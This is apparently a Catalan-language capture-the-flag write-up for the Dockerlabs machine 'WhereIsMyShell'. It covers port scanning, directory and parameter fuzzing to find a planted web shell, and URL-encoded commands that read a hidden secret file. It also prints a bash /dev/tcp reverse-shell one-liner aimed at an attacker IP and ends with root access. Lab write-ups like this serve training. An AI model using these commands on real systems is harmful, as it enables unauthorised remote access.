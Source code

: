 # WhereIsMyShell

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 21:28

## Reconeixement

### NMAP

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv  -n -Pn 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 24.png>)

### FUZZING

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -u [http://172.17.0.2/](http://172.17.0.2/) -x html,php,php7,txt,py
```

![image.png](<imagenes/image 25.png>)

/Warning.htm

![image.png](<imagenes/image 26.png>)

Fem fuzzing per trobar el parametre per executar la web shell:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "[http://172.17.0.2/shell.php?FUZZ=key](http://172.17.0.2/shell.php?FUZZ=key)" -fs 0
```

resultat: parameter

executem webshell per veure que hi ha al  /tmp

![image.png](<imagenes/image 27.png>)

Encodejem la url:

```bash

ls -la /tmp : ls%20-la%20%2Ftmp
cat /tmp/.secret.txt = cat%20%2Ftmp%2F.secret.txt
```

![image.png](<imagenes/image 28.png>)

Obtenim una rever shell:

```java
http://172.17.0.2/shell.php?parameter=bash> -c "bash -i >%26 /dev/tcp/IP ATACANT/443 0>%261"
```

```bash
# bash -c es per executar la ordre i el "bash -i >%26 /dev/tcp/IP ATACANT/443 0>%261" es la rever
Rever: bash -i >& /dev/tcp/192.168.208.128/443 0>&1
Encode el &:
"bash -i >%26 /dev/tcp/IP ATACANT/443 0>%261"
```

Tractament tty

Utilitzem la contrasenya que hem trobat de root:

![image.png](<imagenes/image 29.png>)